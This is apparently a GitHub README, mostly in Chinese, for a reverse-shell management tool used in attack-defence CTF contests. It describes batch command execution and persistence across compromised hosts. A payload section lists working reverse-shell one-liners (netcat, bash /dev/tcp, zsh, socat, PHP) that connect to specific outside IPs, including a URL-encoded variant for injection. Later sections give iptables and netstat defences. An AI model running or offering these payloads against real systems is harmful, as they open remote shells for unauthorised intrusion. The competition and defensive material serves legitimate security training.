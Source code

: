 ##Tkitn\_reverse_manage
278884553@qq.com

###介绍
* awd线下shell管理与权限维持
* 批量执行命令，一键批量执行
* 交互式shell生成
* 异常处理，不会因为对方kill进程而意外退出，或命令输错等等原因导致程序卡死。测试还是蛮健壮的，能想到的bug都加了异常处理

###How to use
```
python3
python Tkitn_reverse_manage.py 0.0.0.0 9992
```
###参数
* h:列出帮助页面
* a:批量命令执行所有shell
* l:查看已经上线的所有shell
* g:根据ip进入其shell通道
* d:删除此shell节点
* r:刷新已经上线的shell,连接失败的则删除掉
* i:在当前的通道处生成交互式shell
* python -c 'import pty;pty.spawn("/bin/bash")'
* q:退出程序

###Payload

#### [**反弹shell集合**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

####常用的payload

```
nc -e /bin/bash 134.65.33.70 9991

bash -c 'bash -i >/dev/tcp/134.65.33.70/9991 0>&1'
burp里使用+代替空格
bash+-c+%27bash+-i+%3E%2Fdev%2Ftcp%2F134.65.33.70%2F9991+0%3E%261%27
zsh -c 'zmodload 

zsh/net/tcp && ztcp 134.65.33.70 9991 && zsh >&$REPLY 2>&$REPLY 0>&$REPLY'

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:134.65.33.70:9991

php -r '$sock=fsockopen("192.168.43.220",9994);exec("/bin/sh -i <&3 >&3 2>&3");'
```

###防御反弹shell
kill进程

```
netstat -anp | grep ESTA
kill -9 pid
```
####防御
只开放一些比赛的必要端口，也可以防止后门的连接

```
#开放ssh
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
iptables -A OUTPUT -p tcp --sport 22 -j ACCEPT
#打开80端口
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A OUTPUT -p tcp --sport 80 -j ACCEPT
#开启多端口简单用法
iptables -A INPUT -p tcp -m multiport --dport 22,80,8080,8081 -j ACCEPT
#允许外部访问本地多个端口 如8080，8081，8082,且只允许是新连接、已经连接的和已经连接的延伸出新连接的会话
iptables -A INPUT -p tcp -m multiport --dport 8080,8081,8082,12345 -m state --state NEW,ESTABLISHED,RELATED -j ACCEPT
iptables -A OUTPUT -p tcp -m multiport --sport 8080,8081,8082,12345 -m state --state ESTABLISHED -j ACCEPT
```
限制ssh登陆，进行访问控制

```
#禁止从xx.xx.xx.xx远程登陆到本机
iptables -t filter -A INPUT -s xx.xx.xx.xx -p tcp --dport 22 -j DROP
#允许xx.xx.xx.xx网段远程登陆访问ssh
iptables -A INPUT -s xx.xx.xx.1/24 -p tcp --dport 22 -j ACCEPT
```
限制IP连接数和连接速率

```
#单个IP的最大连接数为 30
iptables -I INPUT -p tcp --dport 80 -m connlimit --connlimit-above 30 -j REJECT
#单个IP在60秒内只允许最多新建15个连接
iptables -A INPUT -p tcp --dport 80 -m recent --name BAD_HTTP_ACCESS --update --seconds 60 --hitcount 15 -j REJECT
iptables -A INPUT -p tcp --dport 80 -m recent --name BAD_HTTP_ACCESS --set -j ACCEPT
#允许外部访问本机80端口，且本机初始只允许有10个连接，每秒新增加2个连接，如果访问超过此限制则拒接 （此方式可以限制一些攻击）
iptables -A INPUT -p tcp --dport 80 -m limit --limit 2/s --limit-burst 10 -j ACCEPT
iptables -A OUTPUT -p tcp --sport 80 -j ACCEPT
```
限制访问

```
#禁止从客户机1.1.1.4访问1.1.1.5上的任何服务
iptable -t filter -A FORWARD -s 1.1.1.4 -d 1.1.1.5 -j DROP
#封杀1.1.1.4这个IP或者某个ip段
iptables -I INPUT -s 1.1.1.4 -j DROP
iptables -I INPUT -s 1.1.1.1/24 -j DROP
```

